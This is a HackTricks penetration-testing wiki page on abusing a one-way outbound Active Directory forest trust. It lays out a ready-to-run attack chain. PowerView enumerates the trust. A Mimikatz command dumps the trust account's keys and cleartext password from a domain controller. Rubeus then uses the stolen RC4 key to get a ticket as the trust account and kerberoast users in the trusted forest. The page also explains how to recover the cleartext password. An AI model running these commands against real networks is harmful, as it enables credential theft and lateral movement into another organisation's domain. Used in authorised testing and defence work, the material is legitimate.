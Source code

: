 # External Forest Domain - One-Way (Outbound)

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

**Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

**Share your hacking tricks submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>

In this scenario **your domain** is **trusting** some **privileges** to principal from a **different domains**.&#x20;

## Enumeration

### Outbound Trust

```powershell
# Notice Outbound trust
Get-DomainTrust
SourceName      : root.local
TargetName      : ext.local
TrustType       : WINDOWS_ACTIVE_DIRECTORY
TrustAttributes : FOREST_TRANSITIVE
TrustDirection  : Outbound
WhenCreated     : 2/19/2021 10:15:24 PM
WhenChanged     : 2/19/2021 10:15:24 PM

# Lets find the current domain group giving permissions to the external domain
Get-DomainForeignGroupMember
GroupDomain             : root.local
GroupName               : External Users
GroupDistinguishedName  : CN=External Users,CN=Users,DC=cyberbotic,DC=io
MemberDomain            : root.io
MemberName              : S-1-5-21-3022719512-2989052766-178205875-1115
MemberDistinguishedName : CN=S-1-5-21-3022719512-2989052766-178205875-1115,CN=ForeignSecurityPrincipals,DC=cyberbotic,DC=io
## Note how the members aren't from the current domain (ConvertFrom-SID won't work)
```

## Trust Account Attack

When an Active Directory domain or forest trust is set up from a domain _B_ to a domain _A_ (_**B**_** trusts **_**A**_), a _**trust account**_** is created in domain **_**A**_**, named **_**B$**_. Kerberos _**trust keys**,_ derived from the **trust account’s password**, are used for **encrypting inter-realm TGTs**, when users of domain A request service tickets for services in domain B.

It's possible to obtain the password and hash of the trusted account from a Domain Controller using:

```powershell
Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName dc.my.domain.local
```

The risk is because of trust account B$ is enabled, **B$’s Primary Group is Domain Users of domain A**, any permission granted to Domain Users applies to B$, and it is possible to use B$’s credentials to authenticate against domain A.

{% hint style="warning" %}
Therefore, f**rom the trusting domain it's possible to obtain a user inside the trusted domain**. This user won't have a lot of permissions (just Domain Users probably) but you will be able to **enumerate the external domain**.
{% endhint %}

In this example the trusting domain is `ext.local` and the trusted one is `root.local`. Therefore, a user called `EXT$` is created inside `root.local`.

```bash
# Use mimikatz to dump trusted keys
lsadump::trust /patch
# You can see in the output the old and current credentials
# You will find clear text, AES and RC4 hashes
```

Therefore, at this point have **`root.local\EXT$`**’s current **cleartext password and Kerberos secret key.** The **`root.local\EXT$`** Kerberos AES secret keys are on identical to the AES trust keys as a different salt is used, but the **RC4 keys are the same**. Therefore, we can **use the RC4 trust key** dumped from ext.local as to **authenticate** as `root.local\EXT$` against `root.local`.

```bash
.\Rubeus.exe asktgt /user:EXT$ /domain:root.local /rc4:<RC4> /dc:dc.root.local /ptt
```

With this you can start enumerating that domain and even kerberoasting users:

```
.\Rubeus.exe kerberoast /user:svc_sql /domain:root.local /dc:dc.root.local
```

### Gathering cleartext trust password

In the previous flow it was used the trust hash instead of the **clear text password** (that was also **dumped by mimikatz**).

The cleartext password can be obtained by converting the  \[ CLEAR ] output from mimikatz from hexadecimal and removing null bytes ‘\x00’:

![](<../../.gitbook/assets/image (2) (1).png>)

Sometimes when creating a trust relationship, a password must be typed in by the user for the trust. In this demonstration, the key is the original trust password and therefore human readable. As the key cycles (30 days), the cleartext will not be human-readable but technically still usable.

The cleartext password can be used to perform regular authentication as the trust account, an alternative to requesting a TGT using the Kerberos secret key of the trust account. Here, querying root.local from ext.local for members of Domain Admins:

![](<../../.gitbook/assets/image (1) (1) (1).png>)

## References

* [https://improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-7-trust-account-attack-from-trusting-to-trusted](https://improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-7-trust-account-attack-from-trusting-to-trusted)

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

**Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

**Share your hacking tricks submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>

